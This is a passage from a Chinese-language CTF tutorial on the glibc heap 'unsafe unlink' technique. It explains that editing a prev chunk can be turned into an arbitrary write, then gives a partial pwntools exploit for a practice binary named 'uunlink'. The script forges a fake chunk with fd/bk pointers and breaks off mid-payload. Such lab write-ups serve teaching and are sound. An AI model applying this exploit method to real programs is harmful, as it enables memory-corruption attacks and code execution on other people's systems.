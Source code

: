 在可以利用的情况下，用户是可以对自己malloc的chunk进行修改的。因此对prev chunk进行修改，直接会变为修改存放这些chunk的数组/指针的值，我们便可以使其指向任意地址，并完成任意地址写。



### 例题uunlink

exp:

```python
from pwn import *
local = 1
elf = ELF('./uunlink')
context(log_level='debug')
if local:
    p = process('./uunlink')
    libc = elf.libc


def malloc(index, size):
    p.recvuntil('Your choice: ')
    p.sendline('1')
    p.recvuntil('Give me a book ID: ')
    p.sendline(str(index))
    p.recvuntil('how long: ')
    p.sendline(str(size))


def free(index):
    p.recvuntil('Your choice: ')
    p.sendline("3")
    p.recvuntil("Which one to throw?")
    p.sendline(str(index))


def edit(index, size, content):
    p.recvuntil('Your choice: ')
    p.sendline('4')
    p.recvuntil('Which book to write?')
    p.sendline(str(index))
    p.recvuntil("how big?")
    p.sendline(str(size))
    p.recvuntil("Content: ")
    p.sendline(content)

def debug():
    pid = util.proc.pidof(p)[0]
    print('pid:{}'.format(pid))
    gdb.attach(pid)
    pause()


# 创建四个chunk 
malloc(0, 0x30)
malloc(1, 0xf0)
malloc(2, 0x100)
malloc(3, 0x100)


# 下面伪造fake chunk，并通过溢出修改第二个chunk的prev_inuse，prev_size等
fd = 0x602300 - 0x18
bk = 0x602300 - 0x10
py = b''
py += p64(0) + p64(0x31)
py += p64(fd) + p64(bk)
```